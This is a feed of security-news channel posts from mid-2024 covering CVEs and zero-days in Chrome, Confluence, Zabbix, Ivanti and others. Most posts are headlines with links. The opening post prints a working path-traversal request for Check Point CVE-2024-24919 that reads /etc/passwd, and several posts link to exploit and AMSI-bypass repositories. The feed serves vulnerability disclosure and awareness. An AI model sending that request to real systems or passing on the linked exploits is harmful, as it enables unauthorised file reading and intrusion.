

# freedomf0x
`2024-06-04`

<blockquote>
&#35;CVE-2024-24919. Эта уязвимость в Check Point Remote Access VPN позволяет читать файлы на хосте (LFI), с привилегиями root. Уязвимыми являются следующие продукты:

  - CloudGuard Network
  - Quantum Maestro
  - Quantum Scalable Chassis
  - Quantum Security Gateways
  - Quantum Spark Appliances

- Версии:
  - R77.20 (EOL)
  - R77.30 (EOL)
  - R80.10 (EOL)
  - R80.20 (EOL)
  - R80.20.x
  - R80.20SP (EOL)
  - R80.30 (EOL)
  - R80.30SP (EOL)
  - R80.40 (EOL)
  - R81
  - R81.10
  - R81.10.x
  - R81.20

&#35;POC

POST /clients/MyCRL HTTP/1.1 
Host: target_host 
Content-Length: 63 

aCSHELL/../../../../../../../etc/passwd
</blockquote>

---

# cibsecurity
`2024-05-30`

<blockquote>
🖋️ Researchers Uncover Active Exploitation of WordPress Plugin Vulnerabilities 🖋️

Cybersecurity researchers have warned that multiple highseverity security vulnerabilities in WordPress plugins are being actively exploited by threat actors to create rogue administrator accounts for followon exploitation. &quot;These vulnerabilities are found in various WordPress plugins and are prone to unauthenticated stored crosssite scripting XSS attacks due to inadequate input sanitization.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# cibsecurity
`2024-05-24`

<blockquote>
🖋️ Google Detects 4th Chrome Zero-Day in May Actively Under Attack - Update ASAP 🖋️

Google on Thursday rolled out fixes to address a highseverity security flaw in its Chrome browser that it said has been exploited in the wild. Assigned the CVE identifier CVE20245274, the vulnerability relates to a type confusion bug in the V8 JavaScript and WebAssembly engine. It was reported by Clment Lecigne of Google's Threat Analysis Group and Brendon Tiszka of.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# defcon_news
`2024-05-24`

<blockquote>
Google Detects 4th Chrome Zero-Day in May Actively Under Attack - Update ASAP
https://thehackernews.com/2024/05/google-detects-4th-chrome-zero-day-in.html
</blockquote>

---

# RalfHackerChannel
`2024-05-24`

<blockquote>
CVE-2024-21683: Confluence Auth RCE

https://github.com/W01fh4cker/CVE-2024-21683-RCE

&#35;exploit &#35;git &#35;web
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/W01fh4cker/CVE-2024-21683-RCE">
https://github.com/W01fh4cker/CVE-2024-21683-RCE
</a>
<blockquote>
CVE-2024-21683 Confluence Post Auth RCE. Contribute to W01fh4cker/CVE-2024-21683-RCE development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-05-23`

<blockquote>
🖋️ Ivanti Patches Critical Remote Code Execution Flaws in Endpoint Manager 🖋️

Ivanti on Tuesday rolled out fixes to address multiple critical security flaws in Endpoint Manager EPM that could be exploited to achieve remote code execution under certain circumstances. Six of the 10 vulnerabilities  from CVE202429822 through CVE202429827 CVSS scores 9.6  relate to SQL injection flaws that allow an unauthenticated attacker within the same network to.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# proxy_bar
`2024-05-23`

<blockquote>
CVE-2024-21683
Confluence Data Center and Server RCE
*
POC - 3 вариата

&#35;Jirka
</blockquote>

---

# cibsecurity
`2024-05-22`

<blockquote>
🖋️ Critical Veeam Backup Enterprise Manager Flaw Allows Authentication Bypass 🖋️

Users of Veeam Backup Enterprise Manager are being urged to update to the latest version following the discovery of a critical security flaw that could permit an adversary to bypass authentication protections. Tracked as CVE202429849 CVSS score 9.8, the vulnerability could allow an unauthenticated attacker to log in to the Veeam Backup Enterprise Manager web interface as.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# cibsecurity
`2024-05-22`

<blockquote>
🖋️ NextGen Healthcare Mirth Connect Under Attack - CISA Issues Urgent Warning 🖋️

The U.S. Cybersecurity and Infrastructure Security Agency CISA on Monday added a security flaw impacting NextGen Healthcare Mirth Connect to its Known Exploited Vulnerabilities KEV catalog, citing evidence of active exploitation. The flaw, tracked as CVE202343208 CVSS score NA, concerns a case of unauthenticated remote code execution arising from an incomplete.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# freedomf0x
`2024-05-18`

<blockquote>
&#35;CVE-2024-22120: Time Based SQL Injection in &#35;Zabbix Server Audit Log
</blockquote>

---

# RalfHackerChannel
`2024-05-18`

<blockquote>
CVE-2024-22120: Time Based SQL Injection in Zabbix Server Audit Log

Affected and fixed version/s: 
* 6.0.0 - 6.0.27 / 6.0.28rc1
* 6.4.0 - 6.4.12 / 6.4.13rc1
* 7.0.0alpha1 - 7.0.0beta1 / 7.0.0beta2

Allows to dump any values from database. As an example of exploit above allows privilege escalation from user to admin. In some cases, SQL injection leads to RCE.

PoC: https://support.zabbix.com/secure/attachment/236280/236280_zabbix_server_time_based_blind_sqli.py

&#35;exploit &#35;pentest
</blockquote>

---

# proxy_bar
`2024-05-18`

<blockquote>
CVE-2024-22120 Zabbix Server 
*
Time Based SQL Injection
*
Тех детали
*
exploit

&#35;zabbix
</blockquote>

---

# cibsecurity
`2024-07-30`

<blockquote>
🕵️‍♂️ Intel Discloses Max Severity Bug in Its AI Model Compression Software 🕵️‍♂️

The improper input validation issue in Intel Neural Compressor enables remote attackers to execute arbitrary code on affected systems.

📖 Read more.

🔗 Via &quot;Dark Reading&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/cyber-risk/intel-discloses-max-severity-bug-in-its-ai-model-compression-software">
https://www.darkreading.com/cyber-risk/intel-discloses-max-severity-bug-in-its-ai-model-compression-software
</a>
<blockquote>
The improper input validation issue in Intel Neural Compressor enables remote attackers to execute arbitrary code on affected systems.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-05-16`

<blockquote>
🖋️ Google Patches Yet Another Actively Exploited Chrome Zero-Day Vulnerability 🖋️

Google has rolled out fixes to address a set of nine security issues in its Chrome browser, including a new zeroday that has been exploited in the wild. Assigned the CVE identifier CVE20244947, the vulnerability relates to a type confusion bug in the V8 JavaScript and WebAssembly engine. It was reported by Kaspersky researchers Vasily Berdnikov and Boris.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# defcon_news
`2024-05-16`

<blockquote>
Google Patches Yet Another Actively Exploited Chrome Zero-Day Vulnerability
https://thehackernews.com/2024/05/google-patches-yet-another-actively.html
</blockquote>

---

# defcon_news
`2024-05-15`

<blockquote>
Hakuin - A Blazing Fast Blind SQL Injection Optimization And Automation Framework
http://www.kitploit.com/2024/05/hakuin-blazing-fast-blind-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://www.kitploit.com/2024/05/hakuin-blazing-fast-blind-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter">
https://www.kitploit.com/2024/05/hakuin-blazing-fast-blind-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter
</a>
</td></tr></table>

---

# cibsecurity
`2024-05-14`

<blockquote>
🕵️‍♂️ Dangerous Google Chrome Zero-Day Allows Sandbox Escape 🕵️‍♂️

Exploit code is circulating for CVE20244761, disclosed less than a week after a similar security vulnerability was disclosed as being used in the wild.

📖 Read more.

🔗 Via &quot;Dark Reading&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/vulnerabilities-threats/dangerous-google-chrome-zero-day-sandbox-escape">
https://www.darkreading.com/vulnerabilities-threats/dangerous-google-chrome-zero-day-sandbox-escape
</a>
<blockquote>
Exploit code is circulating for CVE-2024-4761, disclosed less than a week after a similar security vulnerability was disclosed as being used in the wild.
</blockquote>
</td></tr></table>

---

# defcon_news
`2024-05-14`

<blockquote>
New Chrome Zero-Day Vulnerability CVE-2024-4761 Under Active Exploitation
https://thehackernews.com/2024/05/new-chrome-zero-day-vulnerability-cve.html
</blockquote>

---

# cibsecurity
`2024-05-14`

<blockquote>
🖋️ New Chrome Zero-Day Vulnerability CVE-2024-4761 Under Active Exploitation 🖋️

Google on Monday shipped emergency fixes to address a new zeroday flaw in the Chrome web browser that has come under active exploitation in the wild. The highseverity vulnerability, tracked as CVE20244761, is an outofbounds write bug impacting the V8 JavaScript and WebAssembly engine. It was reported anonymously on May 9, 2024. Outofbounds write bugs could be typically.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# defcon_news
`2024-05-13`

<blockquote>
[KIS-2024-04] Cacti &lt;&#61; 1.2.26 Remote Code Execution Vulnerability
https://www.reddit.com/r/netsec/comments/1cqurbm/kis202404_cacti_1226_remote_code_execution/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/1cqurbm/kis202404_cacti_1226_remote_code_execution/">
https://www.reddit.com/r/netsec/comments/1cqurbm/kis202404_cacti_1226_remote_code_execution/
</a>
<blockquote>
Posted by eg1x - 1 vote and no comments
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-05-11`

<blockquote>
🕵️‍♂️ Millions of IoT Devices at Risk from Flaws in Integrated Cellular Modem 🕵️‍♂️

Researchers discovered seven vulnerabilities  including an unauthenticated RCE issue  in widely deployed Telit Cinterion modems.

📖 Read more.

🔗 Via &quot;Dark Reading&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/ics-ot-security/millions-of-iot-devices-at-risk-from-flaws-in-integrated-cellular-modem">
https://www.darkreading.com/ics-ot-security/millions-of-iot-devices-at-risk-from-flaws-in-integrated-cellular-modem
</a>
<blockquote>
Researchers discovered seven vulnerabilities — including an unauthenticated RCE issue — in widely deployed Telit Cinterion modems.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-05-10`

<blockquote>
🖋️ Chrome Zero-Day Alert — Update Your Browser to Patch New Vulnerability 🖋️

Google on Thursday released security updates to address a zeroday flaw in Chrome that it said has been actively exploited in the wild. Tracked as CVE20244671, the highseverity vulnerability has been described as a case of useafterfree in the Visuals component. It was reported by an anonymous researcher on May 7, 2024. Useafterfree bugs, which arise when a program.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# defcon_news
`2024-05-10`

<blockquote>
Chrome Zero-Day Alert — Update Your Browser to Patch New Vulnerability
https://thehackernews.com/2024/05/chrome-zero-day-alert-update-your.html
</blockquote>

---

# defcon_news
`2024-05-09`

<blockquote>
Digging for SSRF in NextJS apps
https://www.reddit.com/r/netsec/comments/1coa6vr/digging_for_ssrf_in_nextjs_apps/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/1coa6vr/digging_for_ssrf_in_nextjs_apps/">
https://www.reddit.com/r/netsec/comments/1coa6vr/digging_for_ssrf_in_nextjs_apps/
</a>
<blockquote>
Posted by Mempodipper - 4 votes and no comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2024-05-08`

<blockquote>
Hijack Loader Malware Employs Process Hollowing, UAC Bypass in Latest Version
https://thehackernews.com/2024/05/hijack-loader-malware-employs-process.html
</blockquote>

---

# cibsecurity
`2024-05-08`

<blockquote>
🖋️ Hijack Loader Malware Employs Process Hollowing, UAC Bypass in Latest Version 🖋️

A newer version of a malware loader called Hijack Loader has been observed incorporating an updated set of antianalysis techniques to fly under the radar. &quot;These enhancements aim to increase the malware's stealthiness, thereby remaining undetected for longer periods of time,&quot; Zscaler ThreatLabz researcher Muhammed Irfan V A said in a technical report. &quot;Hijack.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# freedomf0x
`2024-05-04`

<blockquote>
0day vulnerability discovery for bypassing Antimalware Scan Interface (&#35;AMSI)

https://github.com/V-i-x-x/AMSI-BYPASS
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/V-i-x-x/AMSI-BYPASS">
https://github.com/V-i-x-x/AMSI-BYPASS
</a>
<blockquote>
&quot;AMSI WRITE RAID&quot; Vulnerability that leads to an effective AMSI BYPASS - V-i-x-x/AMSI-BYPASS
</blockquote>
</td></tr></table>

---

# defcon_news
`2024-05-04`

<blockquote>
JS-Tap - JavaScript Payload And Supporting Software To Be Used As XSS Payload Or Post Exploitation Implant To Monitor Users As They Use The Targeted Application
http://www.kitploit.com/2024/05/js-tap-javascript-payload-and.html
</blockquote>

<table><tr><td><b>→</b><a href="https://www.kitploit.com/2024/05/js-tap-javascript-payload-and.html?utm_source=dlvr.it&utm_medium=twitter">
https://www.kitploit.com/2024/05/js-tap-javascript-payload-and.html?utm_source=dlvr.it&utm_medium=twitter
</a>
</td></tr></table>

---

